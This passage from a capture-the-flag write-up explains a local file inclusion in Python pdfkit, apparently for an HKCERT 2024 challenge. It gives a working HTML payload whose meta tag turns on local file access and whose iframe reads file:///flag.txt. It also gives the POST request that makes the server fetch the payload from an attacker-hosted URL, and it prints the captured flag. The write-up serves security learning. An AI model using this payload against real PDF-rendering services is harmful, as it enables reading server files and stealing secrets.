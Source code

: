 With that said, we can **use `<meta>` tag to set option `--enable-local-file-access` to read local files**!!

## Exploitation

Armed with above information, we can read the flag file via the following HTML payload:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta name="pdfkit-enable-local-file-access" content="">
</head>
<body>
  <iframe src="file:///flag.txt" width="1000px" height="1000px"></iframe>
</body>
</html>
```

> Note: Don't forget to add prefix `pdfkit-` in the `<meta>` tag's `name` attribute. See previously mentioned class `Configuration`'s `__init__` method.

Then, send the following POST request to convert the HTML payload into a PDF file:

```http
POST /process HTTP/2
Host: c52b-webpage-to-pdf-2-0.hkcert24.pwnable.hk
Cookie: session_id=foo
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

url=https://1ea2-{REDACTED}.ngrok-free.app/exploit.html
```

Finally, go to `/foo.pdf` to read the flag!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2024/images/Pasted%20image%2020241114211001.png)

- **Flag: `hkcert24{c1oud-is-rand0m-st4ngers-c0mputer-and-libr4ries-are-r4ndom-stang3rs-c0de}`**

## Conclusion

What we've learned:

1. Python pdfkit Local File Inclusion via `<meta>` tag